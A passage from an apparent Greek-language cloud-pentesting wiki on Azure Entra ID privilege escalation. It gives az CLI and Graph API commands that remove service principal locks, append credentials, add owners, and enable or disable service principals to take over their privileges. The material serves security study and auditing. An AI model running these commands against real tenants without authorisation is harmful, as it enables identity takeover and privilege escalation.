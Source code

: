 {% code overflow="wrap" %}
```bash
az rest --method PATCH --url https://graph.microsoft.com/v1.0/applications/<sp-object-id> --body '{"servicePrincipalLockConfiguration": null}'
```
{% endcode %}

### `microsoft.directory/servicePrincipals/synchronizationCredentials/manage`

Αυτό επιτρέπει σε έναν επιτιθέμενο να προσθέσει διαπιστευτήρια σε υπάρχοντες υπηρεσιακούς κύριους. Εάν ο υπηρεσιακός κύριος έχει ανυψωμένα δικαιώματα, ο επιτιθέμενος μπορεί να αναλάβει αυτά τα δικαιώματα.
```bash
az ad sp credential reset --id <sp-id> --append
```
### `microsoft.directory/servicePrincipals/owners/update`

Παρόμοια με τις εφαρμογές, αυτή η άδεια επιτρέπει την προσθήκη περισσότερων ιδιοκτητών σε ένα service principal. Η κατοχή ενός service principal επιτρέπει τον έλεγχο των διαπιστευτηρίων και των αδειών του.
```bash
# Add new owner
spId="<spId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/servicePrincipals/$spId/owners/\$ref" \
--headers "Content-Type=application/json" \
--body "{
\"@odata.id\": \"https://graph.microsoft.com/v1.0/directoryObjects/$userId\"
}"

az ad sp credential reset --id <sp-id> --append

# You can check the owners with
az ad sp owner list --id <spId>
```
{% hint style="danger" %}
Αφού πρόσθεσα έναν νέο ιδιοκτήτη, προσπάθησα να τον αφαιρέσω αλλά η API απάντησε ότι η μέθοδος DELETE δεν υποστηρίζεται, ακόμα και αν είναι η μέθοδος που πρέπει να χρησιμοποιήσεις για να αφαιρέσεις τον ιδιοκτήτη. Έτσι, **δεν μπορείς να αφαιρέσεις ιδιοκτήτες σήμερα**.
{% endhint %}

### `microsoft.directory/servicePrincipals/disable` και `enable`

Αυτές οι άδειες επιτρέπουν την απενεργοποίηση και την ενεργοποίηση υπηρεσιακών πριγκίπων. Ένας επιτιθέμενος θα μπορούσε να χρησιμοποιήσει αυτή την άδεια για να ενεργοποιήσει έναν υπηρεσιακό πρίγκιπα στον οποίο θα μπορούσε να αποκτήσει πρόσβαση με κάποιο τρόπο για να κλιμακώσει τα προνόμια.

Σημειώστε ότι για αυτή την τεχνική, ο επιτιθέμενος θα χρειαστεί περισσότερες άδειες προκειμένου να αναλάβει τον ενεργοποιημένο υπηρεσιακό πρίγκιπα.
```bash
bashCopy code# Disable
az ad sp update --id <ServicePrincipalId> --account-enabled false

# Enable
az ad sp update --id <ServicePrincipalId> --account-enabled true
```
#### `microsoft.directory/servicePrincipals/getPasswordSingleSignOnCredentials` & `microsoft.directory/servicePrincipals/managePasswordSingleSignOnCredentials`
